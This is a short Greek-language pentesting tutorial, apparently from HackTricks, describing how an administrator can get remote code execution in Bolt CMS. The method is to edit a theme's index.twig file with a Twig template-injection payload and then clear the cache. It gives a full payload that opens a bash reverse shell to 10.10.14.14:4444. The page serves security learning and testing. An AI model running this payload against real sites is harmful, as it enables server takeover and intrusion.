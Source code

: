 # Bolt CMS

{{#include ../../banners/hacktricks-training.md}}

## RCE

Μετά την είσοδο ως διαχειριστής (πηγαίνετε στο /bot για να αποκτήσετε την προτροπή σύνδεσης), μπορείτε να αποκτήσετε RCE στο Bolt CMS:

- Επιλέξτε `Configuration` -> `View Configuration` -> `Main Configuration` ή πηγαίνετε στη διεύθυνση URL `/bolt/file-edit/config?file=/bolt/config.yaml`
- Ελέγξτε την τιμή του θέματος

<figure><img src="../../images/image (771).png" alt=""><figcaption></figcaption></figure>

- Επιλέξτε `File management` -> `View & edit templates`
- Επιλέξτε τη βάση του θέματος που βρέθηκε στο προηγούμενο βήμα (`base-2021` σε αυτή την περίπτωση) και επιλέξτε `index.twig`
- Στην περίπτωσή μου, αυτό είναι στη διεύθυνση URL /bolt/file-edit/themes?file=/base-2021/index.twig
- Ορίστε το payload σας σε αυτό το αρχείο μέσω [template injection (Twig)](../../pentesting-web/ssti-server-side-template-injection/#twig-php), όπως: `{{['bash -c "bash -i >& /dev/tcp/10.10.14.14/4444 0>&1"']|filter('system')}}`
- Και αποθηκεύστε τις αλλαγές

<figure><img src="../../images/image (948).png" alt=""><figcaption></figcaption></figure>

- Καθαρίστε την κρυφή μνήμη στο `Maintenance` -> `Clear the cache`
- Αποκτήστε ξανά πρόσβαση στη σελίδα ως κανονικός χρήστης, και το payload θα πρέπει να εκτελείται

{{#include ../../banners/hacktricks-training.md}}
